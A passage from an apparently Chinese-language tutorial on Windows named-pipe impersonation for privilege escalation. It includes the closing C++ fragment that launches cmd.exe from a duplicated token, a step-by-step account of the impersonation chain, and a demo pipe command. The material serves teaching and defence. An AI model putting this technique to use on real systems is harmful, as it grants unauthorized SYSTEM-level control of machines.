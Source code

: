 ```c++
        // Creates a new process and its primary thread. The new process runs in the security context of the specified token. It can optionally load the user profile for the specified user.
        if (CreateProcessWithTokenW(phNewToken, LOGON_WITH_PROFILE, (LPWSTR)L"C:\\Windows\\System32\\cmd.exe", NULL, CREATE_UNICODE_ENVIRONMENT | CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi))
        {
            printf("[+] CreateProcessWithTokenW success.\n");

            CloseHandle(hToken);
            CloseHandle(phNewToken);

            return;
        }
        else
        {
            printf("[-] CreateProcessWithTokenW failed (%d).\n", GetLastError());

            CloseHandle(hToken);
            CloseHandle(phNewToken);

            return;
        }
    }
}

```

运行上述代码，将由 `_tmain()` 函数将创建一个命名管道，管道服务器调用 `ConnectNamedPipe()` 等待客户端连接。当客户端连接成功后，服务器程序将调用 `ReadFile()` 来读取客户端写入的数据，并调用我们自定义的 `GetSystem()` 函数模拟管道客户端。在 `GetSystem()` 的函数的内部将依次完成以下工作：

1. 通过 `ImpersonateNamedPipeClient()` 函数模拟命名管道客户端。
2. 通过 `GetCurrentThread()` 和 `OpenThreadToken()` 函数打开与当前线程关联的模拟令牌句柄。
3. 调用 `DuplicateTokenEx()` 函数，复制上一步获取到的模拟令牌来创建一个主令牌。
4. 调用 `CreateProcessAsUser()` 函数，通过上一步获取到的主令牌创建进程。成功执行 `CreateProcessAsUser()` 函数需要拥有 SeAssignPrimaryTokenPrivilege 特权的上下文。
5. 如果 `CreateProcessAsUser()` 函数执行失败，则尝试调用 `CreateProcessWithTokenW()` 函数创建进程。成功执行 `CreateProcessWithTokenW()` 函数需要拥有 SeImpersonatePrivilege 特权的上下文。

如果此时以 NT AUTHORITY\SYSTEM 账户运行的特权进程连接至该管道服务器，那么我们将获得一个 SYSTEM 权限运行的命令行窗口，如下图所示。为了便于演示，我预先通过 PsExec 获得了 SYSTEM 权限，并通过 SYSTEM 权限运行以下命令，通过重定向连接至上述管道。

```console
C:\Users\Marcus\Desktop> echo "Pipe datas from client" > \\.\pipe\pipename
```
